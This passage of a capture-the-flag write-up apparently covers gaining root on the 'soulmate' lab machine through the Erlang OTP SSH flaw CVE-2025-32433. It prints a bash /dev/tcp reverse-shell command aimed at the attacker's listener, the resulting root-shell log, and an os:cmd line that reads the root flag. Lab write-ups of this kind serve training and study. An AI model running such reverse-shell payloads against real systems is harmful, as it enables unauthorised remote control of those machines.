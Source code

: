 Nailed the `root.txt` flag.

Here is the point, we can either exploit straightforward from `www-data` to `root` by running [CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC](https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC) and grab `user.txt` and `root.txt` at the same time. <br>
So that fact that escalated from `www-data` to `ben` is not much so we thinking that the result from this script performs should only rce the container of the target so that from the container footage, we can escalated more to `root` which is way more better.

If we go from `ben` session, we can just using simple command that we can take a look at [cve-2025-32433-erlang-otp-ssh-server-rce](https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce).

```bash
os:cmd("bash -c 'bash -i >& /dev/tcp/10.10.16.17/4444 0>&1'").
```

Let's run it out.

```bash
(ssh_runner@soulmate)2> os:cmd("bash -c 'bash -i >& /dev/tcp/10.10.16.17/4444 0>&1'").
```

```bash
└─$ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 172.16.147.139 • 172.17.0.1 • 10.10.16.17
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from soulmate~10.129.127.216-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/soulmate~10.129.127.216-Linux-x86_64/2025_09_09-00_02_50-913.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@soulmate:/#
```

We also got our connection back as `root` and nailed the `root.txt` flag. <br>
Or we can even `cat` the flag straight from the command.

```bash
os:cmd("cat /root/root.txt").
```

![result](/assets/img/soulmate-htb-release-area-machine/result.png)
